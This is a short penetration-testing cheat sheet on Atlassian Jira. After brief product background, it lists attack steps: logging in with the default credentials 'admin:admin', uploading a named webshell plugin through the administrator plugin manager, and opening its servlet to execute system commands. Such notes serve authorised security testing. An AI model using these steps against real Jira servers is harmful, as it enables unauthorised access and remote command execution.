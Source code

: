 # Web applications - Software Jira

### Overview

Jira is a proprietary issue tracking product developed in Java by Atlassian and
initially released in 2002 which allows bug tracking and agile project
management.

According to Atlassian, Jira is used for issue tracking and project management
by over 75,000 customers in 122 countries.

### Login prompt & default credentials

Access the logon prompt at the URL below and try the default SDK credentials
`admin:admin`.

```
<http | https>://<HOST | IP>/login.jsp
```

### Administrator interface to RCE

Upload the `atlassian-webshell-plugin\atlplug.jar` through the admin web
interface:

```
<http | https>://<HOST | IP>/plugins/servlet/upm
```

Then start and access it to execute system command:

```
<http | https>://<HOST | IP>/plugins/servlet/com.jsos.shell/ShellServlet
```
